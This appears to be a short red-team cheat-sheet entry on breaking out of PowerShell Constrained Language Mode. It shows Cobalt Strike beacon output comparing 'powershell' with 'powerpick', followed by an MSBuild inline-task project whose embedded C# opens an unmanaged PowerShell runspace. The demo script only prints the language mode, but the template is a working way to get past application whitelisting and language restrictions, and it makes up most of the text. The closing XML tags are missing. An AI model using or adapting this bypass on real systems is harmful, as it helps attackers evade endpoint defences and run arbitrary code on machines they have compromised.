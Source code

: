 If you can find an AppLocker bypass to execute arbitrary code, you can also break out of PowerShell Constrained Language by using the **Unmanaged PowerShell runspace**. With Cobalt Strike is simply using `powerpick` command.

```powershell
beacon> powershell $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```

```powershell
beacon> powerpick $ExecutionContext.SessionState.LanguageMode
FullLanguage
```

This can also be done in C#.

```c#
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
   <MSBuildTest/>
  </Target>
   <UsingTask
    TaskName="MSBuildTest"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
     <Task>
     <Reference Include="System.Management.Automation" />
      <Code Type="Class" Language="cs">
        <![CDATA[

            using System;
            using System.Linq;
            using System.Management.Automation;
            using System.Management.Automation.Runspaces;

            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class MSBuildTest :  Task, ITask
            {
                public override bool Execute()
                {
                    using (var runspace = RunspaceFactory.CreateRunspace())
                    {
                      runspace.Open();

                      using (var posh = PowerShell.Create())
                      {
                        posh.Runspace = runspace;
                        posh.AddScript("$ExecutionContext.SessionState.LanguageMode");
                                                
                        var results = posh.Invoke();
                        var output = string.Join(Environment.NewLine, results.Select(r => r.ToString()).ToArray());
                        
                        Console.WriteLine(output);
                      }
                    }

                return true;
              }
            }

        ]]>
      </Code>
    </Task>
```